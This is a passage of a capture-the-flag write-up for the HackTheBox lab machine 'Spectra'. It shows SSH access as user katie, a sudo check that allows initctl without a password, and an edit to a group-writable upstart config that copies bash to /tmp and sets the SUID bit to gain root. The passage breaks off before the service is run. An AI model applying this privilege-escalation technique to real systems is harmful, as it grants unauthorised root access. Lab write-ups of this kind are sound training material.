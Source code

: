 ```bash
ssh katie@spectra.htb

The authenticity of host 'spectra.htb (10.10.10.229)' can't be established.
RSA key fingerprint is SHA256:lr0h4CP6ugF2C5Yb0HuPxti8gsG+3UY5/wKjhnjGzLs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'spectra.htb,10.10.10.229' (RSA) to the list of known hosts.
Password: 
katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
katie@spectra ~ $ cat user.txt
e89d27fe195---------------------
```

# Root

## sudo /sbin/initctl

As seen from the sudo -l check I can run a service starter as root. Services I am able to interact with are within /etc/init, so I decide to first check my groups then scan for any service I can write to.

```bash
katie@spectra ~ $ id
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
katie@spectra ~ $ ls -l /etc/init | grep developers
-rw-rw---- 1 root developers  478 Jun 29  2020 test.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test1.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test10.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test2.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test3.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test4.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test5.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test6.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test7.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test8.conf
-rw-rw---- 1 root developers  478 Jun 29  2020 test9.conf
katie@spectra ~ $ 
```

Simple enough I'll add a /bin/bash copier + SUID maker to test.conf then run the service and get root.

```bash
katie@spectra ~ $ nano /etc/init/test.conf
Error in /usr/local/etc/nanorc on line 260: Error expanding /usr/share/nano/*.nanorc: No such file or directory
katie@spectra ~ $ cat /etc/init/test.conf
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script

    cp /bin/bash /tmp/bash
    chmod u+s /tmp/bash
    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js

end script

```